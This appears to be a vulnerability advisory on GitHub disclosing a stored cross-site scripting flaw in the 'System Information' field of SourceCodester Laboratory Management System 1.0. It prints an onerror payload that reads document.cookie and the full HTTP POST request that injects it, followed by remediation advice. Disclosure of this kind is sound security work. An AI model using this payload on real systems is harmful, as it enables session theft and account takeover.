 Stored Cross-Site Scripting Vulnerability in SourceCodester Laboratory Management System 1.0 :

Vendor: Sourcecodester
Product: Laboratory Management System 1.0
Product URL: Laboratory Management System 1.0
Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Laboratory Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "System Information" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code. Issue Details

Vulnerability Name: Stored XSS in System Information
Severity: High
Affected URL: php-lms/admin/?page=system_info
Affected Parameter: System Information
HTTP Method: POST
Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "System Information" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "System Information" parameter to insert a malicious JavaScript Code that can also access the authentication cookies. Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/php-lms/admin/?page=system_info

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the System Information parameter as shown below and send the request to the server.

Content-Disposition: form-data; name="name"

``` bash
"><img src=x onerror=alert(document.cookie)>
```

In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1Fm7ppEvqs5UrJOK7EuMMQM4X4KpPTBTq/view?usp=drive_link
https://drive.google.com/file/d/1xUbfvAwPu70JZrQoomgWTulL4t5j9zbF/view?usp=drive_link

 Payload:

Content-Disposition: form-data; name="name"

```bash
"><img src=x onerror=alert(document.cookie)>
```

Request:

```bash
POST /php-lms/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38752725403898646351608141163
Content-Length: 663
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=system_info
Cookie: PHPSESSID=mmoofhiuab699hj8pkoi61nmnr
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------38752725403898646351608141163
Content-Disposition: form-data; name="name"

"><img src=x onerror=alert(document.cookie)>

-----------------------------38752725403898646351608141163
Content-Disposition: form-data; name="short_name"

LMS - PHP
-----------------------------38752725403898646351608141163
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------38752725403898646351608141163
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


-----------------------------38752725403898646351608141163--
```

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed. References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/ 

Weakness Enumeration:
CWE-79

This report highlights the Stored XSS vulnerability present in the System Information parameter of php-lms/admin/?page=system_info, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.

